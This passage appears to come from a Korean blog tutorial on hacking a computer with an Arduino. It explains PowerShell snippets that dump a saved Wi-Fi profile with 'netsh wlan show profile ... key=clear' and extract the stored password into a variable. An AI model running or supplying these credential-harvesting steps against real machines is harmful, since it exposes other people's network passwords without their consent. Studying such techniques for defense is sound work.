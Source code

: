 ## 섹션 B

```js
%{(netsh wlan show profile name="$name" key=clear)}
```

이전 파이프에서 검색한 $name 변수를 사용했음을 주의하세요. netsh wlan 함수를 다시 호출하여 SSID에 대한 추가 정보를 얻습니다.

<div class="content-ad"></div>

<img src="/assets/img/2024-06-22-HackingacomputerusingArduino_4.png" />

## 섹션 C

여기서 Key Content(비밀번호)를 추출하여 $pass 변수에 할당합니다.

```js
Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_}
```

<div class="content-ad"></div>

## 섹션 D
